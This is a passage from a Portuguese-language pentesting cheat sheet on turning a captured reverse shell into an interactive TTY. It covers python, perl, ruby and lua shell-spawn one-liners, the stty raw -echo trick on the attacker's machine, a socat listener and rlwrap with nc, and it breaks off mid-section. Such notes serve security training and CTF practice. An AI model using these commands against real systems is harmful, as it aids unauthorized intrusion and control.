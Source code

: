 Ou um desses aqui, geralmente eu uso o python

```sh
python -c 'import pty;pty.spawn("/bin/bash");'
python -c 'import pty;pty.spawn("/bin/sh");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```
Ai aperter `CTRL + Z`

Após isso digite (sim, na minha máquina mesmo, a atacante)
```sh
stty raw -echo
```
Ai digite `fg` e de `duas vezes enter`

Caso de erro digite: `reset`
Caso ele peça terminal digite: `xterm-color`
Caso ele esteja com bugs ainda: `export TERM=xterm`

Isso já vai te dar um shell bacana, mas tu vai ver que vai começar a dar uns bugs caso venha comandos muito grandes, ai o ideal é ajustar o `stty` dele

Digite isso

```sh
stty rows 37 columns 173
```

Esse foi o método que mais utilizo pra deixar o shell interativo

### TTY Shell do Socat

Depois de pegar o shell ruim, digite...

```sh
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

## TTY Windows

### TTY Shell com rlwrap

Rlwrap é muito bom com windows, quando temos o cmd.

Quando for abrir o listener, ao invés de abrir normal com o nc, abra com o `rlwrap` antes do nc

```sh
rlwrap nc 10.0.0.1 4242
```

Ou
